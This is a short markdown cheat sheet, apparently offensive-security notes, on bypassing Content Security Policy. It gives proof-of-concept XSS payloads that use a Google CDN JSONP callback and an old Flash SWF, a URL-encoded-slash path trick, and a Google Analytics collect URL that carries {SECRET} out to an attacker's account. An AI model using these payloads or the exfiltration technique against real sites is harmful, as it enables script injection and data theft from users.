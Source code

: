 # Ways to bypass CSP

## Introduction

Content Security Policy (CSP) is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross Site Scripting (XSS) and data injection attacks.

How do we circumvent CSP protections?

## Impact

Based on different scenarios, we can use different tricks to bypass it.

### Insecure CDN

If you discover that CSP is allowing you to load js files from insecure CDN, you can include older version of vulnerable libraries to achieve your goals.

Some insecure CDN:

- [Google CDN](https://ajax.googleapis.com/ajax/)
    - `<script src="https://ajax.googleapis.com/ajax/services/feed/find?v=1.0&callback=alert&context=1337"></script>`
    - [Libraries](https://ajax.googleapis.com/ajax/libs)
        - Vulnerable Flash: `<embed src='//ajax.googleapis.com/ajax/libs/yui/2.8.0r4/build/charts/assets/charts.swf?allowedDomain=\"})))}catch(e){alert(1337)}//' allowscriptaccess=always>`
- [CloudFlare CDN](https://cdnjs.cloudflare.com/ajax/)
- [jsDelivr](https://cdn.jsdelivr.net/)

### Path Restriction

When you see something like this:

```
Content-Security-Policy: default-src 'none'; style-src 'self'; img-src 'self'; script-src https://cdnjs.cloudflare.com/ajax/libs/jquery/
```

You think: Oh, would I only be allowed to include the js files of trusted CDN under the path `/ajax/libs/jquery/`?

The answer is "No", and you can bypass it via "URL Encoding of a slash". [Demo](https://t.co/Dl9hkKtlQc?amp=1)

![](https://pbs.twimg.com/media/ECK1OQNXoAA7qk-?format=jpg&name=large)

### Google Analytics

When you see something like this:

```
Content-Security-Policy: img-src 'self' data: www.google-analytics.com
```

Not a problem. Quoted from the original report from hackerone:

> The Google Analytics’ ea parameter is used to log event actions and can contain arbitrary strings. An attacker could setup a Google Analytics account and then inject an image referencing their account.

The exploit would be like: `https://www.google-analytics.com/collect?v=1&tid=UA-77300477-1&cid=2111515817&t=event&ec=email&el=2111515817&cs=newsletter&cm=email&cn=062413&cm1=1&ea={SECRET}`

## Reference

- [H5SC Minichallenge 3: "Sh*t, it's CSP!"](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh*t,-it%27s-CSP!%22)
- [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/Intruders/jsonp_endpoint.txt)
- [Relative Path Overwrite demo](https://www.bmoine.fr/assets/projects/files/rpo/index.html)
- [@SecurityMB](https://twitter.com/SecurityMB/status/1162690916722839552)
- [@0daylabs](https://twitter.com/0daylabs/status/774293505183055872)
- [Google Analytics could be used as CSP bypass for data exfiltration on hackerone.com](https://hackerone.com/reports/199779)